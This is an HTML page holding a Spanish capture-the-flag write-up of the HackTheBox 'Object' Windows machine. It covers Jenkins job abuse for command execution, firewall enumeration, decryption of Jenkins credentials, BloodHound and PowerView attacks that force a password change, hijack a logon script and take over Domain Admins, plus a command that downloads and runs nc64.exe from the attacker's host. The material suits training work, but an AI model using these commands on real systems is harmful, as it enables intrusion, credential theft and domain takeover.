








<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - Object</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "Object" de HackTheBox

Cracteristicas:

- Windows
- Difícil
- Active Directory
- Jenkins Exploitation (New Job + Abusing Build Periodically) 
- Jenkins Exploitation (Abusing Trigger builds remotely using TOKEN) 
- Firewall Enumeration Techniques 
- Jenkins Password Decrypt 
- BloodHound Enumeration 
- Abusing ForceChangePassword with PowerView 
- Abusing GenericWrite (Set-DomainObject - Setting Script Logon Path) 
- Abusing WriteOwner (Takeover Domain Admins Group) Active Directory

Util en:

- OSCP 
- OSEP 
- OSWE 
- Active Directory

        Ip 10.10.11.132

Escaneo de puertos

- nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn  10.10.11.132 

    PORT     STATE SERVICE VERSION

    80/tcp   open  http    Microsoft IIS httpd 10.0

    |_http-server-header: Microsoft-IIS/10.0

    |_http-title: Mega Engines

    | http-methods: 

    |_  Potentially risky methods: TRACE

    5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

    |_http-title: Not Found

    |_http-server-header: Microsoft-HTTPAPI/2.0

    8080/tcp open  http    Jetty 9.4.43.v20210629

    |_http-server-header: Jetty(9.4.43.v20210629)

    | http-robots.txt: 1 disallowed entry 

    |_/

    |_http-title: Site doesn't have a title (text/html;charset=utf-8).

    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

tenemos estos puertos de los cuales 5985 es de administracion remota 
puerto 80 iis internet information server a nivel de cms como gestor de contenido podemos ver un nombre de dominio. 
object.htbasí que agreguemos este nombre de dominio en /etc/hosts 



El único enlace en la página para el servidor de "automatización" conduce a http://object.htb:8080/ una pagina de jenkins 



intentamos ingresar con credenciales por defecto sin resulados
nos creamos una cuenta y revisamos el panel. veremos algunas cosas utiles, version de jenkins, configuraciones, ejecuciones, users y configure

podemos hacer un proyecto de Freestyle yendo a New Item
Después de nombrar el proyecto, se le presentarán Activadores de compilación, Entorno de compilación, Gestión de código fuente, etc. 
Seleccione Build Triggers y luego seleccione Build periodically, le permitirá crear una tarea programada que puede configurar
de manera similar a un trabajo cron y esto comenzará a construir su proyecto, podemos configurar el trabajo para que se ejecute después de un minuto. * * * * *




A continuación, en build, podemos ver una opción para Agregar paso de compilación en la que podemos seleccionar Execute Windows Batch command



Volviendo al panel, podemos ver una compilación exitosa. 
en changes console oupu vemos que esamos ejecuando comandos como oliver 

Luego intenté ver si podía hacer ping a mi máquina desde aquí



y es exitoso, ahora podemos transferir nc64.exe a esta máquina. 

- cmd /c powershell -c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.18/nc64.exe')

lo que nos da como salida, error "Unable to connect to the remote server"
es sospechoso y nos hace pensar que tendremos problemas para ganar acceso al systema
lo más lógico ahora sería enumerar reglas de firewall, ya que podemos inyectar código de otras formas, para saber si está bien segurizado y no perder el tiempo.

lanzamos

- cmd /c powershell -c Get-NetFirewallRule -Direction Outbound -Action Block -Enabled True

Esto se traduce a que yo quiero que me muestre aquellas reglas del tráfico saliente, aquellas reglas definidas que estén bloqueando el trafico.
se puede apreciar que en displayname aparece blockoutboundDC. al parecer hay reglas establecidas para impedir el trafico saliente
ahora intentamos por el comando

- cmd /c powershell -c Get-NetFirewallRule -Direction Outbound -Action Allow -Enabled True

Allow para filtrar con aquellas que esten habilitadas "coneccion saliente", lo nos da una salida bastante grande
filtramos por ICMP4-OUT el cual esta habilitado 
deducimos lo que respecta a trafico saliente  de traza icmp si acontece, asi que matamos el servidor y montamos
por tcp dump en escucha en la interfaz tun0, escuchando trazas icmp

- sudo tcpdump -i tun0 icmp -n

efectivamente, nos llegan las trazas, asi que se podria montar una revershell por icmp
pero se hara con otro metodo, powershell display firewall rule names.

https://itluke.online/2018/11/27/how-to-display-firewall-rule-ports-with-powershell/

y recatamos el codigo

    Get-NetFirewallRule -Direction Outbound -Action Block -Enabled True | Format-Table -Property Name, DisplayName, DisplayGroup,@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}},@{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}},Enabled,Profile,Direction,Action

Para mostrar puertos de salida bloqueados de una forma más descriptiva, ya que hay veces que algunos tienen excepciones.

    cmd /c powershell -c "Get-NetFirewallRule -Direction Outbound -Action Block -Enabled True | Format-Table -Property Name,DisplayName,DisplayGroup,@{Name='Protocol';Expression={($PSItem | Get-NetFirewallPortFilter).Protocol}},@{Name='LocalPort';Expression={($PSItem | Get-NetFirewallPortFilter).LocalPort}},@{Name='RemotePort';Expression={($PSItem | Get-NetFirewallPortFilter).RemotePort}},@{Name='RemoteAddress';Expression={($PSItem | Get-NetFirewallAddressFilter).RemoteAddress}},Enabled,Profile,Direction,Action"

se muestra que todo esta bloqueado. continuamos enumerando directorios

desde jenkins:

- cmd /c powershell -c "ls ../../"

No hay nada en el directorio actual, así que enumeraremos los que están en .jenkins 
jenkins usualmente trae archivos config.xml, directorios de usuarios con más archivos config

no muestra nada util

- cat ../../config.xml


asi que revisamos a usuarios

- ls ../../users/

entramos a admin, vemos su archivo config.xml y encontramos un usuario y contraseña probablemente encriptada así que copiamos todo el archivo lo guardamos
luego buscamos un desencriptador de credenciales.

- https://github.com/hoto/jenkins-credentials-decryptor

y usamos la linea de codigo q dice linux o mac


- curl -L \
  "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
   -o jenkins-credentials-decryptor

- chmod +x jenkins-credentials-decryptor


lo lanzamos:

- ./jenkins

y vemos una seccion donde nos pide 4 archivos que son necesarios

>./jenkins-credentials-decryptor \
  -m master.key \
  -s hudson.util.Secret \
  -c credentials.xml \
  -o json

asi que vamos a la carpeta secrets que habíamos visto anteriormente y aquí encontramos los 2 primeros archivos
hacemos un cat a master.key creamos el archivo en nuestra máquina, copiamos el interior pero ojo, ya que si trae un salto de línea nos puede fallar
Así que revisamos antes de.

- xxd master.key

y vemos que si tiene salto de linea

se los sacamos

- cat master.key | tr -d '\n' | sponge master.key

Se puede ver que esta encodeado así que buscamos en google algún script de powershell para convertir el archivo a formato de cadena Base64 
copiamos el oneline lo agregamos al código y lo modificamos un poco quedaría así

- cmd /c powershell -c [convert]::ToBase64String((cat ../../secrets/hudson.util.Secret -Encoding byte))

la salida la decodeamos en el archivo hudson

- echo"gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=" | base64 -d > hudson.util.Secret

y listo tenemos el archivo hudson, con todos los archivos podemos hacer funcionar el decryptor

 - ./jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c config.xml

y nos da como salida:


    {
    "id": "320a60b9-1e5c-4399-8afe-44466c9cde9e",
    "password": "c1cdfun_d2434\u0003\u0003\u0003",
    "username": "oliver"
    }

luego con winrm

- sudo evil-winrm -i 10.10.11.132 -u 'oliver' -p 'c1cdfun_d2434'

listo buscamos la flag
segun comentarios es una maquina realista.
dentro de powershell para ver los usuarios lanzamos

- net user

y vemos a maria con privilegios de administracion. ahora como parece tener un domain controler, vamos a jugar con bloodhound

Inicie bloohound ejecutando neo4j primero y luego la GUI de bloodhoud y cargue los archivos json desde el archivo zip.



Podemos buscar el nodo Oliver y marcarlo como propio para poder buscar rutas para obtener privilegios. 



para enumerar vias potenciales para escalar privilegios, lanzamos en powershell

- net group

y vemos la seccion domain admin.
lanzamos

- net user maria

vemos que María forma parte de remote management use y domain admin luego vamos a la carpeta users hacemos dir y nos muestra un usuario smith

Escalada de privilegios (Smith)

Al ejecutar la consulta de ruta más corta al administrador del dominio, podemos ver una ruta de oliver a smith en la que podemos cambiar
la contraseña de smith asi que esto seria abusing for change password, además smith tiene opciones de escritura en maria y maria es propietaria del administrador de dominio 



vamos a la consola evil win con acceso y lanzamos

- SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

luego buscamos en google powerview.ps1 powersploit lo descargamos y lo pasamos a la victima

- upload /home/kar/maquinas/object/PowerView.ps1

importamos los modulos

- Import-Module .\PowerView.ps1

luego volvemos a bloodhound y usamos la seccion

- Set-DomainUserPassword -Identity smith -AccountPassword $SecPassword

lo modificamos un poco para no cargar las contraseñas ya que la habiamos generado con el comando anterior, solo modificamos $secPassword
y el nombre de usuario, el resto lo borramos, damos enter y entramos con evil-winrm

- evil-winrm -i 10.10.11.132 -u 'smith' -p 'Password123!'

ya como smith vemos bloodhound y vemos que tiene como vulnerabilidad generic whrite sobre maria
aqui podemos ver que podemos realizar un ataque kerberos. vamos a usar otra forma que consiste en retocar y controlar los atributos de usario,
en directorio activo se pueden configurar cosas siertamente criticas ejemplo, logon script es un escript que se ejecuta cuando el usuario inicia session
usaremos esta secuencia de comando modificada

- Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}

sacamos credential cred cambiamos service principal name y cargamos el archivo power view, antes mencionado

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1

en la maquina victima

- Import-Module .\PowerView.ps1

asi que nuestro script de inicio de session consistiria en mostrar lo que hay dentro de maria cuando esta inicie session

- Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}

en vez de service principal name ponemos un script path que es para controlar el logon script asi que vamos a definir un script en power shell

- echo 'dir C:\Users\Maria\Desktop\ > C:\ProgramData\bh\output.txt' > test.ps1

un script que se guardar en la secuencia de comando antes mencionada que guardara la salida de dir en el archivo output cuando maria inicie sesion
el script quedara de esta manera.

- Set-DomainObject  -Identity maria -SET @{scriptpath='C:\ProgramData\bh\test.ps1'}

Hacemos dir y deberíamos ver el archivo output.txt esto pasa gracias a que maria se está  autenticando con intervalos regulares de tiempo,
asi que vemos el archivo engines.xls modificamos el script para copiar el archivo

- echo 'copy C:\Users\Maria\Desktop\Engines.xls  C:\ProgramData\bh\Engines.xls' > test.ps1

lo descargamos a la maquina atacante.

- download C:\ProgramData\bh\Engines.xls Engines.xls

lo abrimos con libreoffice, en el archivo se ven 3 contraseña, intentamos inicar sesion con evil-winrm

vamos al directorio que creamos una vez más y esta vez debemos ganar control en el domain admin  que ya es posible con el usuario María así que importamos 
el módulo de powerview modificamos nuevamente el seteado, recordar que todo esto aparece en bloodhound

-   Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity Maria

este comando nos agrega al domain admin, luego nos damos todos los privilegios con

-   Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights All -PrincipalIdentity Maria

hacemos net user Maria y no nos muestra como miembros de domain admin así que lo agregamos con

-   net group "Domain Admins" Maria /add /domain

entramos y salimos para actualizar credenciales y terminada buscamos flag de root


Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto debido
a que en algunas de las máquinas que realice no tome los apuntes o no tome capturas de pantalla así que he decidido buscar varios writeups
y agregar lo que este mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía o cualquier error, 
Puedes contactarme a mi correo:

lerioxirit@proton.me


        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>